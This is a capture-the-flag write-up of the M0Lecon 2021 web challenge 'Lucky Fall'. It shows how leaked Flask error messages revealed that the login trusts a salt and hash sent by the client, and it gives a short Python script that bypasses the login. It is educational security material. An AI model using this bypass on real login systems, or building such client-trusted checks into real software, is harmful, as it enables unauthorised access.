 ```yaml
---
layout: load_md
title: The White Circle | M0Lecon 2021 | Lucky Fall Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: M0Lecon 2021
parent: m0lecon_2021
category: web
challenge: Lucky Fall
tags: "web, twh"
date: 2021-05-17T00:00:00+00:00
last_update: 2021-05-17T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">M0Lecon 2021</h1>

## Lucky Fall
> Solved By : thewhiteh4t

- we have a simple login page
- JSON body is sent to the server which contains username and password
- Unusual thing here is that the error is shown in a javascript alert

![](https://i.imgur.com/gDkpo4r.png)

- the page source looked normal so I proceeded to intercept the login request with burpsuite
- if we remove the `name` key value pair from JSON body we can see the following error :

![](https://i.imgur.com/bcDVpIS.png)

- this error reveals few things to us :
    - python flask backend is used
    - the exceptions are showed in the alert pop up
    - `name` key value pair are required

- after this I tried to remove the `password` key : 

![](https://i.imgur.com/SZeBtyH.png)

- here we can see an `if` condition which looks like the logic behind the login function
- It is calculating the SHA256 hash of concatenation of `password` and `salt`
- then it compares it with a `hash` value
- but if we take a look carefully we can see that the values of `salt` and `hash` are being taken from the JSON request body
- so we can set our own `salt` and `hash` just like `username` and `password`
- I wrote a small python script to get the flag
- here `username`, `password` and `salt` can be any values, we just need to satisfy the if condition to get the flag

```python
#!/usr/bin/env python3

import requests
import hashlib

url = 'http://lucky-fall.challs.m0lecon.it/'
uname = 'admin'
passw = 'password'
salt = 'salt'
Hash = hashlib.sha256((passw + salt).encode('UTF-8')).hexdigest()

json_body = {
    'name': uname,
    'password': passw,
    'salt': salt,
    'hash': Hash
}

r = requests.post(url + 'login', json=json_body)
print(r.text)
```

**OUTPUT :**

![](https://i.imgur.com/257p2bC.png)

